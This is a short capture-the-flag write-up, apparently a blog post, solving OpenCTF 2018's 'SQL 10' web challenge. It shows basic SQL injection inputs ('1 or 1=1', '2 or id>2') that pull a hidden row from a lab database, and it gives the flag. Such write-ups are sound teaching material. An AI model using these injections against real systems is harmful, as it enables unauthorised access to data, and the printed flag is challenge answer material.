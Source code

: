 ```yaml
---
layout: post
title: "OpenCTF : SQL 10"
author: Fl0rbu5
date: 2018-08-12 2:37:59 -0700
slug: sql10
category:
- 2018
- openctf
---
```

**Category:** Web

**Points:** 10

**Description:**
```
https://sql-mayham.openctf.com/ziopxuoiwquyerhnszpasdyvzlkxcjlwerqwer/sql-10/
```


When `1` is entered it returns the following row:

```
Enter a badge number to view that officers file:1
(1, 'bob', 'simmons', 'none')
```
Performing a basic sql injection we got the same row back but no error. The server only returns 1 row

```
Enter a badge number to view that officers file:1 or 1=1
(1, 'bob', 'simmons', 'none')
```
Entering an ID of 2 no results are found.
```
Enter a badge number to view that officers file:2 
None
```
 Using the sql injection an OR was added to say "id>2"
```
Enter a badge number to view that officers file:2 or id>2
(152135123451, 'flag', 'flag', 'Th@tW@53@5yHuh')
```
This returns the flag in the one other row in the database

# Flag
**Th@tW@53@5yHuh**
